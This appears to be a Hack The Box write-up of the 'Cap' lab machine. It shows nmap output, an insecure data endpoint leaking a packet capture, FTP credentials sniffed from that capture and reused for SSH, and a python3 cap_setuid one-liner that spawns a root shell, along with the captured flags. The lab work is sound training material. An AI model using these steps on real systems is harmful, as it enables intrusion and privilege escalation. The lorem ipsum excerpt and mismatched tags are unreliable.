 ```yaml
---
layout: single
title: Cap - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2021-06-18
classes: wide
header:
  teaser: /assets/images/htb-writeup-cap/cap_logo.png
  teaser_home_page: true
  icon: /assets/images/linux.png
categories:
  - hackthebox
  - infosec
tags:  
  - linux
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-cap/cap_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝


1. [root:/git/htb/cap]# nmap -Pn -n -sCV --open 10.10.10.245
  PORT   STATE SERVICE VERSION
  21/tcp open  ftp     vsftpd 3.0.3
  22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey:
  |   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
  |   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
  |_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
  80/tcp open  http    gunicorn
  | fingerprint-strings:
  |   FourOhFourRequest:
  |     HTTP/1.0 404 NOT FOUND
  |     Server: gunicorn
  |     Date: Fri, 18 Jun 2021 07:14:58 GMT
  |     Connection: close
  |     Content-Type: text/html; charset=utf-8
  |     Content-Length: 232
  |     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
  |     <title>404 Not Found</title>
  |     <h1>Not Found</h1>
  |     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
  |   GetRequest:
  |     HTTP/1.0 200 OK
  |     Server: gunicorn
  |     Date: Fri, 18 Jun 2021 07:14:52 GMT
  |     Connection: close
  |     Content-Type: text/html; charset=utf-8
  |     Content-Length: 19386
  |     <!DOCTYPE html>
  |     <html class="no-js" lang="en">
  |     <head>
  |     <meta charset="utf-8">
  |     <meta http-equiv="x-ua-compatible" content="ie=edge">
  |     <title>Security Dashboard</title>
  |     <meta name="viewport" content="width=device-width, initial-scale=1">
  |     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
  |     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
  |     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
  |     <link rel="stylesheet" href="/static/css/themify-icons.css">
  |     <link rel="stylesheet" href="/static/css/metisMenu.css">
  |     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
  |     <link rel="stylesheet" href="/static/css/slicknav.min.css">
  |     <!-- amchar
  |   HTTPOptions:
  |     HTTP/1.0 200 OK
  |     Server: gunicorn
  |     Date: Fri, 18 Jun 2021 07:14:52 GMT
  |     Connection: close
  |     Content-Type: text/html; charset=utf-8
  |     Allow: OPTIONS, GET, HEAD
  |     Content-Length: 0
  |   RTSPRequest:
  |     HTTP/1.1 400 Bad Request
  |     Connection: close
  |     Content-Type: text/html
  |     Content-Length: 196
  |     <html>
  |     <head>
  |     <title>Bad Request</title>
  |     </head>
  |     <body>
  |     <h1><p>Bad Request</p></h1>
  |     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
  |     </body>
  |_    </html>
  |_http-server-header: gunicorn
  |_http-title: Security Dashboard


DIRB
+ http://10.10.10.245/data (CODE:302|SIZE:208)
+ http://10.10.10.245/ip (CODE:200|SIZE:17451)
+ http://10.10.10.245/netstat (CODE:200|SIZE:30019)

NIKTO
+ Allowed HTTP Methods: OPTIONS, GET, HEAD

User - Nathan


1. Visiting the HTTP we instantly see user 'Nathan', and a few IP functions - netstat, ifconfig and a capture counter. The capture
have all it's values to 0, and whatever we do towards the host they don't move.

Looking at the url, http://10.10.10.245/data/1, we can change the value '1' to '0' in hope to find a earlier batch of data.
This work and we can see that the counters are now 72,69,69,0. Download the .pcap file and go through it in Wireshark.


2. Once opened the .pcap we can quickly see requests and responses regarding user Nathan. Right click, Follow > TCP Stream and we
get this output:

  220 (vsFTPd 3.0.3)
  USER nathan
  331 Please specify the password.
  PASS Buck3tH4TF0RM3!
  230 Login successful.
  SYST
  215 UNIX Type: L8
  PORT 192,168,196,1,212,140
  200 PORT command successful. Consider using PASV.
  LIST
  150 Here comes the directory listing.
  226 Directory send OK.
  PORT 192,168,196,1,212,141
  200 PORT command successful. Consider using PASV.
  LIST -al
  150 Here comes the directory listing.
  226 Directory send OK.
  TYPE I
  200 Switching to Binary mode.
  PORT 192,168,196,1,212,143
  200 PORT command successful. Consider using PASV.
  RETR notes.txt
  550 Failed to open file.
  QUIT
  221 Goodbye.

Sweet, we now have creds to vsFTP! Nathan:Buck3tH4TF0RM3!
Before digging deeper into vsFTP, I always tend to try the creds towards SSH incase that would give us a easy user.

  [root:/git/htb/cap]# ssh nathan@10.10.10.245                                                                                      (master✱)
  nathan@10.10.10.245's password: Buck3tH4TF0RM3!
    nathan@cap:~$ whoami
      nathan
    nathan@cap:~$ cat user.txt
      ae160eb3719c987efe6e0eebaf2a6574

Easy user, great!


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. As usual, start with the easy 'sudo -l' to see if we can get easy root.

  nathan@cap:~$ sudo -l
    [sudo] password for nathan:
    Sorry, user nathan may not run sudo on cap.

No luck, after some manual enumeration I couldn't find anything obvious - so fire up linpeas.

  nathan@cap:/dev/shm$ ./linpeas.sh
    ..
    [+] Capabilities
    [i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#capabilities
    /usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
    /usr/bin/ping = cap_net_raw+ep
    /usr/bin/traceroute6.iputils = cap_net_raw+ep
    /usr/bin/mtr-packet = cap_net_raw+ep
    /usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep

Capabilities is new to me, something I've never heard about and fits the name of the box 'Cap'.
Reading about Capabilities we find:
  > Capabilities are useful when you want to restrict your own processes after performing privileged operations
  > (e.g. after setting up chroot and binding to a socket). However, they can be exploited by passing them malicious
  > commands or arguments which are then run as root.

  CAP_SETUID =            Allow changing of the UID (set UID of root in you process)
  CAP_NET_BIND_SERVICE =  Bind a socket to internet domain privileged ports
  CAP_NET_RAW =           Use RAW and PACKET sockets (sniff traffic)

With this knowledge, python3.8 has the capabilities to setuid to 0, giving us root access.
We can do this in a simple one-liner.

  nathan@cap:~$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash");'
  root@cap:~# id && cat /root/root.txt
  uid=0(root) gid=1001(nathan) groups=1001(nathan)
  cd9a6e65fc62abbc53c91c6f7b803822


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝


Exploit Capabilities:
  https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities#malicious-use
